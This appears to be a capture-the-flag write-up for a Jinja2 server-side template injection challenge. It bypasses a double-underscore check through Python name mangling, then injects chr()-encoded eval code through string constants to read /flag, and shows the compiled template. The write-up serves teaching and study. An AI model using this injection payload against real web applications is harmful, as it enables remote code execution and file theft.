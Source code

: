 # writeup

First of all, we have to bypass the `__` check in the name. The catch here is that python actually mangles names if they're starting with `__`.
```python
In [1]: class Test:
   ...:     def __hidden() -> None:
   ...:         pass
   ...:

In [2]: dir(Test())
Out[2]:
['_Test__hidden',
 ...]
```

And because of that, we can pass the `_Renderer__old` value to `method` post form data to call the old renderer, which would give us an access to exploit SSTI.

In the isinstance hook it returns true for some of the isinstance checks within jinja2, if we look a bit closer how jinja [compiles](https://github.com/pallets/jinja/blob/7277d8068be593deab3555c7c14f974ada373af1/src/jinja2/compiler.py#L1628C1-L1633C34) `Const` nodes, we can see this part of code:

```python
    def visit_Const(self, node: nodes.Const, frame: Frame) -> None:
        val = node.as_const(frame.eval_ctx)
        if isinstance(val, float):
            self.write(str(val))
        else:
            self.write(repr(val))
```

As you may know, jinja translates its templates to the python code, then it executes it and that's how its "rendering" stuff.

When we are writing constants, it repr's it so that `asd` would turn to `'asd'`, etc.
But for floats, it just writes its str value, which is completely reasonable and understandable why, but with this isinstance hook, it would always return true there.

Because of that, we can embed the python code directly to the compiled version of a template using the string consts.

To bypass the filters, we can use `{% if 1 == 1 %}{% endif %}` and emit the code as a bunch of `chr`s.

Which gives us the payload:
```python
In [4]: m = "open('/flag').read()"

In [5]: c = ''
   ...: for i, x in enumerate(m):
   ...:     if i > 0:
   ...:         c += '+'
   ...:     c += f'chr({ord(x)})'
   ...:
```

`{% if "1 == 1: yield eval(chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41))\n    if 1 == 1" %}{% endif %}`

Which then will be compiled to
```python
from jinja2.runtime import AsyncLoopContext, LoopContext, Macro, Markup, Namespace, TemplateNotFound, TemplateReference, TemplateRuntimeError, Undefined, auto_aiter, auto_await, escape, identity, internalcode, markup_join, missing, str_join
name = None

async def root(context, missing=missing, environment=environment):
    resolve = context.resolve_or_missing
    undefined = environment.undefined
    concat = environment.concat
    cond_expr_undefined = Undefined
    if 0: yield None
    pass
    yield '<html>\n<head>\n    <title>Shippering!</title>\n    <link href="static/styles.css" rel="stylesheet">\n</head>\n<body>\n    <div id="wrapper">\n        <div id="content">\n            <h1>aloha!</h1>\n            <pre>Welcome to the automated fanfic generator.</pre>\n\n            <form action="/" method="post">\n                <input type="hidden" id="encoding" name="encoding" value="utf-8">\n\n                <div class="content_2">\n                    <b>Person 1:</b> <input id="person_1" name="person_1">\n                </div>\n\n                <div class="content_2">\n                    <b>Person 2:</b> <input id="person_2" name="person_2">\n                </div>\n\n                <div class="content_2">\n                    <button type="submit">submit</button>\n                </div>\n            </form>\n\n            <div class="content_2">\n                <pre>A playful argument, a shared laugh, '
    if 1 == 1: yield eval(chr(112)+chr(114)+chr(105)+chr(110)+chr(116)+chr(40)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41)+chr(41))
    if 1 == 1:
        pass
    yield " and  's eyes met, and it was as if no one else was there.</pre>\n            </div>\n        </div>\n    </div>\n</body>\n</html>"

blocks = {}
debug_info = '29=12'
```
